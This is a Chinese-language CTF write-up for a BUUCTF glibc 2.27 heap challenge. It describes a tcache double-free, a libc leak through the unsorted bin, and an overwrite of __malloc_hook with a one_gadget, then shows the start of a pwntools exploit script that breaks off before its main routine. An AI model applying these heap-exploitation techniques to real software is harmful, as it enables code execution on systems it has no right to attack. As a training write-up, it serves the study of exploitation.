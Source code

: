 ```py
    if debug == 1:
        p = process('./chall')
    else:
        p = remote('119.3.172.70',10005)

```

## BUUCTF

### ciscn_2019_sw_5/ciscn_2019_nw_2

#### 程序逻辑

libc-2.27，固定分配`0x70`(chunk大小为`0x80`)只能free`3`次，但malloc之后会输出一次数据，输入技巧题。

#### 漏洞利用

先double free，分配到`tcache_struct`里`0x80`对应的位置(需要爆破`1/16`)，构造一个tcache chain出来，比如我这里是往里写一个`*2b0`而`*2b0`后面跟着`*2e0`，进而得到一个`*2b0->*2e0`的链，之后分配到`*2b0`修改`*2e0`的size为`0x421`(注意后面要有一个fake_chunk的prev_in_use=1)，Free掉这个块即可得到Ub(注意此时因为fd=`main_arena+96`又出了新的链`*2e0->main_arena+96`)，再Malloc可以根据末位一定是`\xa0`分配到`*2d0`泄露libc，再分配到`main_arena+96`修改`top_chunk`到`__malloc_hook`前面，最后把刚才那个`0x420`大小的ub分配完再走`top_chunk`，最终分配到`__malloc_hook`改为`gadgets[1]`即可。

问了队友胡师傅(ID太长记不住)，有另一种解法，改tcache的块数量为`0xff`，double free用来伪造fake chunk的`size`为0x210，与此同时还能写`tcache[0x80]`这个块到`fake chunk`，之后可以分配得到这个块，再释放就到了`ub`。再分配就可以覆写tcache[0x80]到malloc_hook。

远程数据发送过快可能会粘包，所以这里加了`raw_input()`多试试就好。

#### exp.py

```py
#coding=utf-8
from pwn import *
context.update(arch='amd64',os='linux',log_level='DEBUG')
context.terminal = ['tmux','split','-h']
debug = 0
elf = ELF('./ciscn_2019_sw_5')
libc_offset = 0x3c4b20
gadgets = [0x4f2c5,0x4f322,0x10a38c]
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
if debug:
    p = process('./ciscn_2019_sw_5')
else:
    p = remote('node3.buuoj.cn',28453)

def Add(title=p64(0),content=p64(0x21)*13):
    p.recvuntil('>> ')
    p.sendline('1')
    p.recvuntil("title:\n")
    p.send(title)
    p.recvuntil("content:")
    p.send(content)

def Delete(index):
    p.recvuntil('>> ')
    p.sendline('2')
    p.recvuntil("index:\n")
    p.sendline(str(index))

def Trigger():
    p.recvuntil('>> ')
    p.sendline('3'*0x5000)


def exp():
```